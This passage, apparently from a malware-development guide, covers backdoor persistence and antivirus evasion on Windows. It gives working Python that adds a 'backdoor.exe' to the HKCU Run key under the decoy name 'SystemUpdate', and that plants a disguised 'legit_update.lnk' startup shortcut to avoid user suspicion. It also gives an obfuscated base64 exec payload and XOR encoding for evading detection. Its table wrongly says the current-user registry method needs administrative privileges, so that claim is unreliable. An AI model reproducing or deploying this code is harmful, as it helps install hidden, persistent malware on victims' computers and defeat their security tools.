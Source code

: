 #### **Registry Modification**
```python
import winreg

def add_registry_persistence():
    key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, 
                          r"Software\Microsoft\Windows\CurrentVersion\Run", 
                          0, winreg.KEY_WRITE)
    winreg.SetValueEx(key, "SystemUpdate", 0, winreg.REG_SZ, "C:\\Windows\\System32\\backdoor.exe")
    winreg.CloseKey(key)
```
- **Mechanism**:  
  - Adds the backdoor executable to the Windows registry under the `Run` key.  
  - The system executes the entry at startup.  

#### **Startup Folder Shortcut**
```python
import os
import winshell

def add_startup_shortcut():
    path = os.path.join(winshell.startup(), "legit_update.lnk")
    shell = winshell.CreateShortcut(path)
    shell.path = "C:\\Windows\\System32\\cmd.exe"
    shell.arguments = "/c C:\\backdoor.exe"
    shell.save()
```
- **Mechanism**:  
  - Creates a shortcut in the user's Startup folder to launch the backdoor.  
  - Mimics legitimate update processes to avoid user suspicion.  

| **Method**               | **Advantages**                          | **Disadvantages**                     |
|--------------------------|-----------------------------------------|---------------------------------------|
| Registry Modification    | Silent, no user interaction required    | Requires administrative privileges    |
| Startup Folder Shortcut  | Simple to implement                     | Easily detectable by users            |

---

### **3. Evasion Techniques**
Antivirus and endpoint detection systems often flag suspicious behavior. The following techniques are employed to evade detection:

#### **Code Obfuscation**
- **Base64 Encoding**:  
  ```python
  import base64, sys
  exec(base64.b64decode("aW1wb3J0IHNvY2tldCAqLioK..."))  # Obfuscated payload
  ```
- **XOR Encryption**:  
  ```python
  def xor_encrypt(data, key):
      return bytes([b ^ key for b in data])
  ```

